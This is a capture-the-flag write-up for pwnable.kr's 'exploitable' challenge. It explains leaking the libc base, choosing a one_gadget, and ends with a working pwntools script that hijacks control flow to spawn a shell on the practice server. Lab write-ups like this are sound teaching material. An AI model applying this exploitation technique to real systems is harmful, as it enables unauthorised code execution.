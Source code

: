 # Exploitable

Tbh, exploitable is one of the easiest challenges i solved in `pwnable.kr`
Lets take a look of the c code!

```c
#include <stdio.h>

void leak_memory(int fd, int addr, int len, int key1, int key2, int key3, int key4, int key5, int key6){
        if(key1==0xcafebabe && key2==0xdeadbeef){
                if(key3+key4+key5+key6==14){
                        write(fd, addr, len);
                }
        }
}

void main(){
        int eip;
        int n;
        leak_memory(1, &stdout, 4, 0xcafebabe, 0xdeadbeef, 1, 3, 3, 7); // leak libc
        scanf("%d", &eip);
        ((int(*)())eip)(0xdeadbeef);    // hijack control flow!
}
```

The code gives you the address of `stdout` and tells you to leak `libc`
Then you can  litterely give an offset and just the code will jump to it.
The challenge is basicly two parts:
- How to leak libc
- Where to jump

So for the first task, `ASLR` makes the address a library gets loaded to random, but not the offsets, which means the offset between `stdout` to start of `libc` is always the same.
## Important when dealing with libc

One important thing, is to check the `libc` version in the remote, is identical to ours.
In my case its not, so what can we do?
First, download `pwninit` , then go to the ssh and download the libc they are using, and the linker (using `ldd`)

![ldd_img.png](images/ldd_img.png)

Put the binary, the libc and the linker in the same directory and run:
```bash
pwninit --bin <your elf>
```

Ok now lets check the offset!
![stdout_got.png](images/stdout_got.png)
We can see the address that stdout gonna be stored in.
Lets use gdb to calculate the offset from libc.

![offset_calc.png](images/offset_calc.png)
We can now calculate

```
0xf7fced60 - 0xf7e1b000 = 1785184
```

Now when we have the offset, we can select a gadget, and we can calculate the address to it.

## One_gadget

In this challenge, the problem is we cant control the stack or the registers.
so we need a gadget which just jumping it will give us a shell,
there is a tool called `one_gadgert` that can help us!

![one_gadget.png](images/one_gadget.png)

Every gadget, have constraints we need to fill in order to get a shell,
for some reason it tells us for every gadget that `esi` needs to be the GOT address of libc, but its a lie!
The first one looks reasonable, since its not that rare that `NULL` occurs on the stack, so i just tried to take the first gadget and add it to libc leak!

```python
#!/usr/bin/python3

from pwn import *
import ctypes

stdout_offset = 1785184
gadget_offset = 0x3ac6c

p = remote("pwnable.kr", 9018)

libc_stdout_addr = u32(p.recv(4))
print("libc stdout: " + hex(libc_stdout_addr))

libc = libc_stdout_addr - stdout_offset
print("libc addr: " + hex(libc))

gadget_addr = libc + gadget_offset
addr = str(ctypes.c_int32(gadget_addr).value)
p.sendline(addr)

p.interactive()
```

![[exploitable/images/win.png]]